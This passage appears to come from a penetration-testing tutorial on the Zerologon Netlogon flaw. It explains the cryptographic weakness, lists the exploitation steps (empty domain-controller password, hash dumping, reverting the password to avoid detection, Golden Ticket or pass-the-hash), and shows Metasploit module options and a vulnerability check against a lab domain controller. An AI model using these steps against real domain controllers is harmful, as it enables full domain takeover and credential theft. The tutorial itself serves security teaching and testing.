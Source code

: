 This results in a cryptographic flaw in which encryption of 8-bytes of zeros could yield a ciphertext of zeros with a probability of 1 in 256.\
Another implementation issue that allows this attack is that unencrypted Netlogon sessions aren’t rejected by servers (by default).\
\
The combination of these two flaws could allow an attacker to completely compromise the authentication, and thus to impersonate a server of their choice.\
\
Here is a summary of the exploitation steps:
- Establish an unsecure Netlogon channel against a domain controller by performing a brute-force attack using an 8 zero-bytes challenge and ciphertext, while spoofing the identity of that same domain controller. This would require an average of 256 attempts (given the probability of success being 1 in 256).
- Use the NetrServerPasswordSet2 call to set the domain controller account’s password, as stored in Active Directory, to an empty one. This breaks some of the domain controller functionality, since the password stored in the domain controller’s registry does not change (this is the reason step four noted below is taken).
- Use the empty password to connect to that same domain controller and dump additional hashes using the Domain Replication Service (DRS) protocol.
- Revert the domain controller password to the original one as stored in the local registry to avoid detection.
- Use the hashes dumped from stage 3 to perform any desired attack such as Golden Ticket or pass the hash using domain administrator credentials.

### The Attack
There are several ways to execute the attack, but for this demonstration we will use good old Metasploit zerologon module to exploit this vulnerability.\
The assumption is that you already gained foothold on the internal network and identified the domain controllers in the network.\
In our case, we will use the `advictim2012r2` server as our target with IP address `192.168.201.9`.

Start up Metasloit framework on Kali Linux and search for zerologon.\
Fill in IP and netbios name of the Domain controller and run check to see if the server is vulnerable to zerologon.

```shell
msf6 auxiliary(admin/dcerpc/cve_2020_1472_zerologon) > options

Module options (auxiliary/admin/dcerpc/cve_2020_1472_zerologon):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   NBNAME  advictim2012r2   yes       The server's NetBIOS name
   RHOSTS  192.168.201.9    yes       The target host(s), see https://github.com/rapid7/metasploit-frame
                                      work/wiki/Using-Metasploit
   RPORT                    no        The netlogon RPC port (TCP)


Auxiliary action:

   Name    Description
   ----    -----------
   REMOVE  Remove the machine account password


msf6 auxiliary(admin/dcerpc/cve_2020_1472_zerologon) > check

[*] 192.168.201.9: - Connecting to the endpoint mapper service...
[*] 192.168.201.9:49155 - Binding to 12345678-1234-abcd-ef00-01234567cffb:1.0@ncacn_ip_tcp:192.168.201.9[49155] ...
[*] 192.168.201.9:49155 - Bound to 12345678-1234-abcd-ef00-01234567cffb:1.0@ncacn_ip_tcp:192.168.201.9[49155] ...
[+] 192.168.201.9 - The target is vulnerable.
```
